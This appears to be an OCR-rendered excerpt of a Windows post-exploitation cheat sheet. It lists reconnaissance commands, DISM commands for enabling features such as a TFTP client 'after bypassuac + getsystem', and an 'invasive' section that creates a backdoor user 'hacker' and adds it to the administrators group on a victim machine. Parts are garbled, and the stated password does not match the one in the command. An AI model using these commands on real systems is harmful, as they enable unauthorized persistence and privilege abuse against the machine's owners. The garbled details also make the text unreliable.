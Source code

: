 #### OS SPECIFICwmicWin2k3

winpop stat domainname


#### Vista/7

winstat features

wbadmin get status

wbadmin get items

gpresult /H gpols.htm

bcdedit /export *filename*

Vista SP1/7/2008/2008R2 (x86 & x64)

#### Enable/Disable Windows features with Deployment Image Servicing and Management (DISM):

*Note* Works well after bypassuac + getsystem (requires system privileges)

*Note2* For Dism.exe to work on x64 systems, the long commands are necessary


#### To list features which can be enabled/disabled:

%windir%\System32\cmd.exe /c "%SystemRoot%\system32\Dism.exe" /online /get-features

#### To enable a feature (TFTP client for example):

%windir%\System32\cmd.exe /c "%SystemRoot%\system32\Dism.exe" /online /enable-feature /featurename:TFTP

#### To disable a feature (again TFTP client):

%windir%\System32\cmd.exe /c "%SystemRoot%\system32\Dism.exe" /online /disable-feature /featurename:TFTP

#### Invasive or Altering Commands


These commands change things on the target and can lead to getting detected
Command
```
net user hacker Passw0rd123! /add

Creats a new local (to the victim) user called ‘hacker’ with the password of ‘hacker’

net localgroup administrators /add hacker

or

net localgroup administrators hacker /add

Adds the new user ‘hacker’ to the local administrators group
```
